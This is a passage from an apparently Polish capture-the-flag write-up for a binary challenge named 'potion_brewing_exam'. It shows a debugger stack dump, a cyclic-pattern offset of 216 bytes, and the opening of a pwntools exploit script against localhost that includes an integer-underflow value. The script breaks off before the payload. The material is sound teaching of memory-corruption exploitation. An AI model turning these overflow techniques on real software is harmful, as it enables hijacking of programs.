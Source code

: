 Po wpisaniu ciągu do funkcji read.
```
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdc08│+0x0000: "eaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqa[...]"	 ← $rsp
0x00007fffffffdc10│+0x0008: "gaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsa[...]"
0x00007fffffffdc18│+0x0010: "iaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacua[...]"
0x00007fffffffdc20│+0x0018: "kaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwa[...]"
0x00007fffffffdc28│+0x0020: "maacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacya[...]"
0x00007fffffffdc30│+0x0028: "oaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadba[...]"
0x00007fffffffdc38│+0x0030: "qaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaadda[...]"
0x00007fffffffdc40│+0x0038: "saactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfa[...]"
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401353 <cast_spell+61>  call   0x401070 <read@plt>
     0x401358 <cast_spell+66>  nop    
     0x401359 <cast_spell+67>  leave  
 →   0x40135a <cast_spell+68>  ret    
[!] Cannot disassemble from $PC
```

```console
$ pwn cyclic -l eaac

216
```

Musimy więc wysłać 216 bajtów paddingu po czym adres funkcji `get_ancient_power`.

## Finalny exploit
```py
#!/usr/bin/env python
from pwn import *

##### SPECIFY BINARY #####
elf = context.binary = ELF('../src/potion_brewing_exam')

context.terminal = ['gnome-terminal', '--tab', '--']

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([elf.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        ##### SPECIFY SERVER AND PORT #####
        SERVER = 'localhost'
        PORT = 13371         
        return remote(SERVER, PORT, *a, **kw)
    else:
        return process([elf.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

MAX_INT = 2147483647

UNDERFLOW = -(MAX_INT-200)

```